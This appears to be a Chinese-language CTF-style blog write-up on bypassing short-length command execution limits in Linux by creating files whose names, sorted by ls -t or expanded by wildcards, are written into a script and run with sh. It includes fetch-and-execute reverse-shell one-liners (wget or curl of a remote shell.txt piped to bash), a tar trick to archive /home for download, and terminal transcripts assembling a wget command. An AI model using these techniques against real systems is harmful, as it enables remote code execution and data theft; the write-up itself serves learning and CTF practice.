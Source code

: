 # 短命令执行

### 要点

这里利用到了linux系统中的几个点

- `>`创建文件并可以写入命令等内容，如果是已有文件会删除文件内容重新写入,`>>`可创建文件或者向已有文件继续写入内容(会换行)。

- `l\s`中的\不会阻断命令的执行，而在识别到\前后连起来为可执行命令时可以执行命令。

- `sh`从标准输入或者从一个文件中读取命令并执行

- `*`Linux通配符，会匹配任意长度文件名，默认匹配当前文件中第一个文件名，单独打出来会将文件名当作命令执行，将后面的文件名作为参数，同时可以用*接文件名首字母或者尾字母匹配对应文件(匹配完成后若单独打出依然是按照第一个文件名当作命令执行，其余文件当作参数)
如下：
<img src="https://0xfay.github.io/public/image/201337.png">

- `rev`倒转字符串，用于拼凑命令

- `dir`和ls作用相同但输出内容是一行而不是ls的很多行

- 以.开头的文件为隐藏文件，`ls -a`可以查看，dir或者ls普通排序不会显示出来，可以方便*去执行命令。

整个过程为创建所需名称的文件,写入到一个文件中并执行。所以重点就在于拼接所需命令的顺序，如下为Linux文件的排序：

<img src="https://0xfay.github.io/public/image/alphabeat.png">

### 反弹shell方式

这里也学到了新的弹shell技巧，直接把脚本放在远程服务器上，用curl或者wget远程加载并执行，达到反弹shell的目的

wget http://x.x.x.x/shell.txt | bash 

curl http://x.x.x.x/shell.txt | bash

(后面不一定是bash，shell是用的bash就用bash，用python写的就用python)

### 构造

网上有很多构造方式，这个师傅写了很多方式我觉得还挺值得学习，也是感谢这位师傅https://www.jianshu.com/p/5aad993c793e

里面有位师傅直接通过tar打包方式直接将/home目录打包然后去下载，属实有刷新我的认知。

```
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >tar
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >vcf
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >zzz
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# * /h*
```
就相当于执行了`tar -vcf zzz /h*`将整个/home目录下载到zzz中

然后写两个我觉得不错的思路吧。

- 思路1

来自这个师傅的博客：https://blog.kaibro.tw/2017/11/07/HITCON-CTF%E5%88%9D%E8%B3%BD/
  
```
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >echo
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >.a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >wg\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# *>.a    #执行echo wg\\ >.a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# rm w*
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >et     #重复上述过程
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# *>>.a
......
```

通过创建隐藏文件用echo不断写入的方式构造语句，最终写入.a的命令为
`wget x.x.x.x/shell.txt`
再用bash去执行

特点为简单方便，稍微吃域名的名字，需要后续的写入文件名都至少排在echo文件后面，且只能用wget无法用curl

- 思路2

基于上面的思路和其他师傅的思路我也想了种不需要特殊域名的方法

<img src="https://0xfay.github.io/public/image/201338.png">

```
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >echo
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >ls
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >-t
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >\>z
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# ls
 echo   ls   -t  '>z'
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >.a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# *>.a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# cat .a
ls -t >z
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# sh .a
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# ls
 echo   ls   -t   z  '>z'
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# cat z
z
>z
-t
ls
echo
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# 
```

用上面的方式可以创建一个.a的隐藏文件，内容为`ls -t >z`,然后rm删除其他未隐藏文件

注意这里-t文件在5个字符的限制内删除不了，但是并不影响后面执行命令，因为ls写入是一行一行写入，-t会单独一行，在前面没有\连接的情况下会把-t当作命令而不是参数，不会影响后面的操作
然后继续创建文件

<img src="https://0xfay.github.io/public/image/224507.png">

```
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >m
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >co\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >u.\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >id\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >ba\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >w.\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >ww\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >\ \\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >et\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# >wg\\
root@iZwz9g9k9upd20uokk3yfbZ:/home/fay/script/test# ls -t
'wg\'  'et\'  ' \'  'ww\'  'w.\'  'ba\'  'id\'  'u.\'  'co\'   m
```

然后`sh .a`就可以把命令写入文件z中，再`sh z`即可。由于是用的`ls -t`写入,对构造没有什么限制，想怎么写怎么写，注意倒着构造就可。(我这里后面没加bash之类的，师傅们看自己情况加上)

p.s.注意ls写入文件时是一行一行写入的，因此构造空格时必须前面末尾以\结束，空格末尾也要以\结束，否则sh执行时会将两个分开的指令分开执行。
而dir写入时是将整个文件名拼接成一行再输出。这时空格前面就不需要，但注意当写入的为一行时这一行不能包含其他东西，sh执行时会将一行内的所有内容当作命令，稍有不对就不能执行。有兴趣的师傅可以去研究下dir(构造过程虽然麻烦且累但是挺有意思的！)